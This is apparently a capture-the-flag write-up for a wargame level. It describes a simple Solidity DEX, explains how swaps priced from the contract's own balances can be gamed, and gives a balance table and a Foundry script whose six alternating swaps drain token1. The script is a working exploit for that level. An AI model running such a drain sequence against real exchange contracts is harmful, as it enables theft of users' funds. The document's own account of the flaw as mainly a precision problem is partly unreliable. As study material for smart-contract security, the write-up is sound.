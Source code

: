 # Decentralized Exchange (DEX) Smart Contract

## Introduction
This Solidity smart contract represents a decentralized exchange (DEX) where users can trade ERC20 tokens in a trustless manner. It includes functionalities for adding liquidity, swapping tokens, approving token transfers, and checking token balances.

## Contract Structure
The DEX contract (`Dex`) inherits from the `Ownable` contract, ensuring that only the owner (deployer) of the contract has certain privileges.

### State Variables
- `token1` and `token2`: Addresses of two ERC20 tokens to be traded on the DEX.

### Constructor
The constructor is empty, meaning initialization of state variables is expected to happen after deployment.

### Functions
1. `setTokens(address _token1, address _token2)`: Sets the addresses of the two tokens to be traded. Only the owner can call this function.

2. `addLiquidity(address token_address, uint amount)`: Allows the owner to add liquidity by transferring tokens to the DEX contract.

3. `swap(address from, address to, uint amount)`: Enables users to swap tokens. Requires the input tokens to be valid, and the caller to have sufficient balance. The swap price is determined by the ratio of token balances in the DEX contract.

4. `getSwapPrice(address from, address to, uint amount)`: Calculates the swap price based on the current token balances in the DEX contract.

5. `approve(address spender, uint amount)`: Allows users to approve the DEX contract to spend their tokens. It prevents the DEX contract itself from being approved.

6. `balanceOf(address token, address account)`: Retrieves the balance of a specific token for a given account.

## Swappable Token Contract
The `SwappableToken` contract represents an ERC20 token with additional functionality to prevent the DEX contract from being approved.

### State Variables
- `_dex`: Address of the DEX contract.

### Constructor
- Initializes the token with a given name, symbol, and initial supply.

### Functions
- `approve(address owner, address spender, uint256 amount)`: Overrides the standard `approve` function to prevent the DEX contract from being approved directly.

# Exploiting a Decentralized Exchange (DEX) Contract

## Introduction
In Solidity smart contracts, exploiting vulnerabilities can lead to substantial losses or gains. In the case of the provided DEX contract, a loophole exists that allows attackers to drain one of the two tokens from the contract by manipulating swap operations. Let's explore how this vulnerability can be exploited.

## Understanding the Vulnerability
The DEX contract's swap function lacks precision handling, as Solidity does not support floating-point numbers. This absence of precision control allows for rounding errors during token swaps, which can be leveraged to drain one of the tokens from the contract.

## Exploiting the Vulnerability
To exploit the vulnerability, an attacker must repeatedly swap tokens between token1 and token2 in a strategic manner to gradually drain one of the tokens from the contract. Here's a step-by-step breakdown of the exploitation process:
1. Approve a substantial amount of tokens for the DEX contract to spend.
2. Initiate a sequence of swap operations according to a predetermined pattern, ensuring that each swap gradually increases the balance of one token while decreasing the balance of the other.
3. Continue the swap sequence until the balance of one token in the contract reaches a critical threshold, such as zero.
4. Execute a final swap operation to drain the remaining balance of the target token from the contract.

## Implementing the Exploit
The provided script demonstrates how to execute the exploit on the DEX contract. Here's a summary of the script's functionality:
- Approve a generous allowance for both token1 and token2.
- Execute a series of swap operations according to the exploitation strategy, as outlined in the table below.
- Check the final balance of token1 in the DEX contract to confirm the success of the exploit.

| Swap Step | Token1 Balance (DEX) | Token2 Balance (DEX) | Token1 Balance (Attacker) | Token2 Balance (Attacker) |
|-----------|-----------------------|-----------------------|----------------------------|----------------------------|
| 1         | 110                   | 90                    | 0                          | 20                         |
| 2         | 86                    | 110                   | 24                         | 0                          |
| 3         | 110                   | 80                    | 0                          | 30                         |
| 4         | 69                    | 110                   | 41                         | 0                          |
| 5         | 110                   | 45                    | 0                          | 65                         |
| 6         | 0                     | 90                    | 110                        | 20                         |
    
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;
    
    import "forge-std/Script.sol";
    import "../instances/Ilevel22.sol";
    
    contract POC is Script {
    
        Dex level22 = Dex(0x84c765cfdbA36b9e81Db0eb7C9356eed77296ed6);
        function run() external{
            vm.startBroadcast();
            level22.approve(address(level22), 500);
            address token1 = level22.token1();
            address token2 = level22.token2();
    
            level22.swap(token1, token2, 10);
            level22.swap(token2, token1, 20);
            level22.swap(token1, token2, 24);
            level22.swap(token2, token1, 30);
            level22.swap(token1, token2, 41);
            level22.swap(token2, token1, 45);
    
            console.log("Final token1 balance of Dex is : ", level22.balanceOf(token1, address(level22)));
            vm.stopBroadcast();
        }
    }
    

## Conclusion
Exploiting vulnerabilities in smart contracts requires a deep understanding of Solidity's intricacies and potential pitfalls. By identifying loopholes like precision loss in token swap operations, attackers can manipulate contracts to their advantage, potentially causing significant financial damage.

Developers must prioritize security in smart contract development by implementing robust testing, auditing, and best practices to mitigate the risk of exploitation. Additionally, users should exercise caution when interacting with decentralized applications to avoid falling victim to malicious actors exploiting vulnerabilities like the one discussed in this article.


